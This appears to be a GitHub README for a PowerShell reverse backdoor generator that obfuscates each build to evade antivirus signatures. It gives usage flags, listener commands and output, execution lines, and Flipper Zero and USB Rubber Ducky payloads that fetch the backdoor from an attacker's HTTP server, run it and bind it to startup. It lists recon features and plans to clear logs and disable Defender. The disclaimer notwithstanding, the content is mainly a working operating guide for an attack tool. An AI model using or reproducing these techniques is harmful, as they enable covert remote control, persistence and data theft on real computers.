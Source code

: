 ```
/******************************************************************************
 * DISCLAIMER: 
 * 
 * This program is intended for educational purposes only. By using this program,
 * you agree that you understand the potential risks associated with its use.
 * 
 * - This program should not be used on any system or network without proper 
 *   authorization. Unauthorized use is strictly prohibited.
 * 
 * - The creator of this program assumes no liability for any damages, legal 
 *   consequences, or loss of data caused by the use of this program.
 * 
 * - It is your responsibility to ensure that you comply with all applicable 
 *   laws and regulations while using this program.
 * 
 * Please use this program responsibly and ethically, and respect the privacy 
 * and security of others.
 *****************************************************************************/


```

# PShellBackdoorBitch
<br>
Reverse backdoor tool written in PowerShell and obfuscated with Python, providing a new signature after every build to avoid detection. The tool has the capability to create payloads for popular hacking devices such as Flipper Zero and Hak5 USB Rubber Ducky. Use this tool to test your system's defenses against advanced attack techniques.
```
<br>
Powershell Backdoor Generator

usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY] [--flipper FLIPPER] [--ducky]
                 [--server-port SERVER_PORT] [--payload PAYLOAD] [--list--payloads] [-k KEYBOARD] [-L] [-H]



options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.X.XX)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero (includes EOL conversion) (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8080)
  --payload PAYLOAD     USB Rubber Ducky/Flipper Zero backdoor payload to execute
  --list--payloads      List all available payloads
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
  -A, --actually-listen
                        Just listen for any backdoor connections
  -H, --listen-and-host
                        Just listen for any backdoor connections and host the backdoor directory
```

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Play wav files from a URL
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Gather information about the target system's operating system
* Retrieve BIOS information from the target syste
* Check if an anti-virus software is installed and its current status
* Get Active TCP Clients
* Install Chocolatey, a popular package manager for Windows (https://chocolatey.org/)
* Check if common pentesting software is installed on the target system.

## Standard backdoor
``` bash
C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

### Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux.
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(jdabs㉿kali)-[/home/jdabs/Documents]
└─PS> ./backdoor.ps1
```

# Bad USB/ USB Rubber Ducky attacks
When using any of these attacks you will be opening up a HTTP server hosting the backdoor. Once the backdoor is retrieved the HTTP server will be shutdown.

## Payloads
   * Execute -- Execute the backdoor 
   * BindAndExecute -- Place the backdoor in the users temp directory, bind the backdoor to startup and then execute it. (Requires Admin)
     
## Flipper Zero Backdoor
Below will generate a file called powershell_backdoor.txt, which when triggered on the Flipper will fetch the backdoor from your computer over HTTP and execute it.
```
C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --flipper powershell_backdoor --payload execute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
Below is a tutorial on how to generate an inject.bin file for the Hak5 USB Rubber ducky
```
 C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --ducky --payload BindAndExecute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar

## To Do 
* Pull Recent RDP connections
* Change Wallpaper from URL
* Find Writeable Directories
* Clear Logs
* Disable Defender

## Output of 5 Obfuscations
Below is the sha1 hash of backdoor.ps1 after 5 builds.
```
1e158f02484e5c58d74c1507a1773392ffacfca2
6d18230a419195d0f77519abc0238768956cdd58
558a8cbac40239c9e6660a45cc8fc5d02b5057d7
caf4d0c8424eceb960d5f5c526e83ecd485c4ac9
947b57824917842d79f9cbcac8a795aa7c2f8a49
```
